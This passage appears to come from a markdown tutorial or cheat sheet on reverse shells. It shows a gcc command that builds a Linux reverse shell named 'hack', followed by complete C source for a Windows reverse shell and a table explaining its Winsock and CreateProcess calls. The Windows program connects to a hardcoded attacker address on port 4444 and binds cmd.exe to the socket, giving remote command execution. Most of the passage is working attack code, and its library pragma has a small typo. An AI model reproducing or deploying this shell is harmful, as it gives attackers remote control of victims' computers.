 
**Compiling:**

```bash
gcc -o hack reverse-shell-linux.c
```


---

## 2. Windows Reverse Shell (C)

**Code:**

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

WSADATA socketData;
SOCKET mainSocket;
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

int main(int argc, char *argv[])
{
    char *attackerIP = "192.168.37.37";
    short attackerPort = 4444;

    WSAStartup(MAKEWORD(2, 2), &socketData);
    mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    connectionAddress.sin_family = AF_INET;
    connectionAddress.sin_port = htons(attackerPort);
    connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

    WSAConnect(mainSocket, (SOCKADDR *)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

    memset(&startupInfo, 0, sizeof(startupInfo));
    startupInfo.cb = sizeof(startupInfo);
    startupInfo.dwFlags = STARTF_USESTDHANDLES;
    startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE)mainSocket;

    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);

    exit(0);
}
```

**Explanation:**

| Component                                        | Purpose                                                                       |
| ------------------------------------------------ | ----------------------------------------------------------------------------- |
| `WSAStartup()`                                   | Initializes Windows Sockets API. Required before using Winsock functions.     |
| `WSASocket()`                                    | Creates a TCP socket (like Linux `socket()`).                                 |
| `WSAConnect()`                                   | Connects to the attacker's listener.                                          |
| `STARTUPINFO` + `hStdInput/hStdOutput/hStdError` | Redirects the child process I/O to the socket (like `dup2` in Linux).         |
| `CreateProcess("cmd.exe", ...)`                  | Launches a new shell (`cmd.exe`) that inherits the redirected socket handles. |
| `exit(0)`                                        | Terminates the stub; the shell continues running independently.               |
